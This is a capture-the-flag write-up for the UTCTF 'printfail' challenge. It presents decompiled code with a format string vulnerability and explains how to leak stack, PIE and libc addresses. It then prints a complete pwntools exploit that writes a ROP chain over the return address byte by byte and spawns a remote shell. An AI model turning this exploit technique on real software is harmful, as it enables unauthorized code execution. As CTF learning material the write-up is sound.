

### Challenge

Here we are given a binary with the following code
```
int main() {
  int iVar1;
  long in_FS_OFFSET;
  int i;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("I\'ll let you make one printf call. You control the format string. No do-overs.");
  i = 1;
  while ((i != 0 && (iVar1 = run_round(&i), iVar1 != 0))) {
    if (i != 0) {
      puts(
          "...That was an empty string. Come on, you\'ve at least gotta try!\nOkay, I\'ll give you a nother chance."
          );
    }
  }
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

and the ```run_round``` function looks like this

```

int run_round(uint *param_1)

{
  int iVar1;
  char *pcVar2;
  size_t sVar3;
  
  memset(buf,0,0x200);
  fflush(stdout);
  pcVar2 = fgets(buf,0x200,stdin);
  if (pcVar2 == (char *)0x0) {
    iVar1 = 0;
  }
  else {
    sVar3 = strlen(buf);
    *param_1 = (uint)(sVar3 < 2);
    iVar1 = printf(buf);
  }
  return iVar1;
}

```

We have a format string vulnerability in ```run_round``` that allows us to leak the stack.

### Approach

After running ```run_round``` we check the value of variable ```i``` in main whether it's non zero or not. If it is we are given another chance to abuse the format string vulnerability. Since we have the variable located on the stack it is very easy for us to write a non zero value there using $n. On examining the stack, I saw that this variable is at argument offset 7 from the stack, so I could overwrite it as many times as I want. However, since the format string is located on the .bss section, we don't have control over what addresses we can place in the stack. 
The binary has all the protections(FULL RELRO, NX enabled, Canary, PIE), so overwriting GOT is out of the picture.
First using %p|%p|%p......., I first created a layout of what the stack looks like when ```printf``` is called. Using these addresses we can easily compute the binary base and the libc base.
For this binary we are told that the libc version is the same as Ubuntu 20.04. So I patched the binary using ```pwninit```, to get the correct libc address.
The challenge was to overwrite the return address with a ROP chain that gives us shell.
For that I used certain stack addresses that point to another stack address


So first we write the return address that we want to overwrite, on the stack using these addresses. And once we have the appropriate stack address there, we can overwrite any value we want using $hn or $hhn. 

```
flag: utflag{one_printf_to_rule_them_all}
```

### Exploit
```
from pwn import *

e = ELF("./printfail")
#p = e.process()
p = remote("puffer.utctf.live", 4630)
context.terminal = ["tmux", "splitw", "-h"]
gdbscript = """
    br *run_round + 132
"""
return_address = 0
libc_base = 0
 
def write_addr(address):
    address_hex = hex(address)[-4:]
    payload = b"1%7$n"
    payload += b"%" + str(int(address_hex, 16) - 1).encode() + b"c"
    payload += b"%31$hn"
    p.sendline(payload)
    p.recvuntil(b"...That was an empty string. Come on, you've at least gotta try!")
    p.recvline()


def write_byte(byte_val):
    payload = b"1%7$n"
    if byte_val == 0:
        payload += b"%" + str(0x100 - 1).encode() + b"c"
    else:
        payload += b"%" + str(byte_val - 1).encode() + b"c"
    payload += b"%45$hhn"
    p.sendline(payload)
    p.recvuntil(b"...That was an empty string. Come on, you've at least gotta try!")
    p.recvline()

count = 0
# 31st param has the address. Address value is at 45th parameter
def print_stack():
    global return_address
    global libc_base
    global count 
    payload = b"1%7$n|"
    for i in range(6, 70):
        payload += b"%" + str(i).encode() + b"$p|"
    p.sendline(payload)
    out = p.recvuntil(b"...That was an empty string. Come on, you've at least gotta try!").decode()

    out_list = out.split("|")[1:-1]
    stack_addr = int(out_list[2], 16) - 0x30
    print("stack_start address: 0x%x" %stack_addr)

    elf.address = int(out_list[3],16) - 60 - e.sym['main']

    return_address = stack_addr + 0x38

    if count == 0:
        libc_base = int(out_list[7],16) - 147587
    count += 1

    for (index, val) in enumerate(out_list):
        print("| {} ->  {} |".format(hex(stack_addr + (index*8)), val))

print_stack()
p.recvline()
print("Main binary: 0x%x" %elf.address)
POP_RDI = elf.address + 0x1373
print("Return address: 0x%x" %return_address)
print("Libc base: 0x%x" %libc_base)

buf_addr = elf.address + 0x4040

write_addr(return_address)

# print_stack()
for i in range(6):
    byte_to_write = p64(POP_RDI)[i]
    write_addr(return_address + i)
    write_byte(byte_to_write)

for i in range(6):
    byte_to_write = p64(buf_addr)[i]
    write_addr(return_address + 8 + i)
    write_byte(byte_to_write)

POP_POP_RSI = elf.address + 0x1371
for i in range(6):
    byte_to_write = p64(POP_POP_RSI)[i]
    write_addr(return_address + 16 + i)
    write_byte(byte_to_write)

for i in range(6):
    byte_to_write = p64(0x0)[i]
    write_addr(return_address + 24 + i)
    write_byte(byte_to_write)

for i in range(6):
    byte_to_write = p64(0x0)[i]
    write_addr(return_address + 32 + i)
    write_byte(byte_to_write)

system_addr = libc_base + 336528

for i in range(6):
    byte_to_write = p64(system_addr)[i]
    write_addr(return_address + 40 + i)
    write_byte(byte_to_write)

print_stack()

payload_new = b"/bin/sh\x00\x00"
p.sendline(payload_new)

p.interactive()
```


